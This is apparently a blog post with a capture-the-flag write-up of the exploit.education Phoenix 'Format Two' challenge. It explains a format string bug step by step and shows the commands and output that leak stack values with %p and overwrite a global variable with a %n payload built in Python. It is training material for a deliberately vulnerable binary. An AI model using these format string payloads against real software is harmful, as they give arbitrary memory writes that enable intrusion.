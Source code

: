 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x2"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Format Two](https://exploit.education/phoenix/format-two/)

<!--more-->

This challenge requires us to overwrite a global integer variable `changeme`.

# The bug

Again, the buf is providing user input as the format string to `printf`. This time,
input is provided via `argv[1]` and `printf` is wrapped in a function.

# The exploit

The goal is to write data to a specific address. In order to turn a format string bug into an arbitrary write primitive is by using the `%n` format specifier, which, according to the `printf` `man` page does the following: 

```
The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.
```

So a legitimate use of this specified would be the following:

```C
int numCharsWritten = 0;
printf("Hello World%n", &numCharsWritten);
printf("Number of chars written: %d", numCharsWritten);
```

This code snippet will print out the number of characters written until the `%n` specifier. In order for this to work, `printf` pops the argument from the stack an interprets it as an address. If there is no argument, it just pops the next value of the stack.

To turn this into an arbitrary write, we need a way to provide the value on the stack. Luckily for us, our input string is also stored on the stack, so in order to write to any address, we just need to start our input string with the address we want to write to.

Now we know that the target address is on the stack. However, it is not the first value on the stack (since it is in a different frame). Thus, we first need to figure out the offset of our format string. This can be done by abusing the format string bug to print out the content of the stack:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAA 0xffffd75d 0x100 0 0xf7f84b67 0xffffd5a0 0xffffd588 0x80485a0 0xffffd480 0xffffd75d 0x100 0x3e8 0x41414141Better luck next time!
```

As we can see, the `0x41414141` representing the beginning of our string is the 12th value. This means we need to trick printf into thinking the parameter for `%n` comes at the 12th position. On some platforms, you can use the `%NUMBER` modifier to select a specific argument for the subsequent modifier:

```c
printf("AAAA%12$p");
```

However, this fails in our case:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %12$p"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Better luck next time!
```

Alternatively, since we have enough space in our buffer, we can just provide 12 arguments:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "AAAA %p %p %p %p %p %p %p %p %p %p %p %n"
Welcome to phoenix/format-two, brought to you by https://exploit.education
Segmentation fault
```

Looks like we're writing to memory! Let's use some address that we can write to:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t format-two | grep changeme
08049868 g     O .bss   00000004 changeme

user@phoenix-amd64:/opt/phoenix/i486$ ./format-two `python -c 'print "\x08\x04\x98\x68"[::-1] + "%p"*11 + "%n"'`
Welcome to phoenix/format-two, brought to you by https://exploit.education
0xffffd7690x10000xf7f84b670xffffd5a00xffffd5880x80485a00xffffd4800xffffd7690x1000x3e8Well done, the 'changeme' variable has been changed correctly!
```

Done :)! To recap, we're looking up the address of the global changeme variable using `objdump`. Then, for our format string, we provide the address as the beggining of our string. Then we pop 4-byte values from the stack using the `%p` specifier until we reach our input (the 12th value). As the last specifier we use `%n` which writes the number of characters written so far to the address specified in the argument. In our case, that's the address of `changeme`.

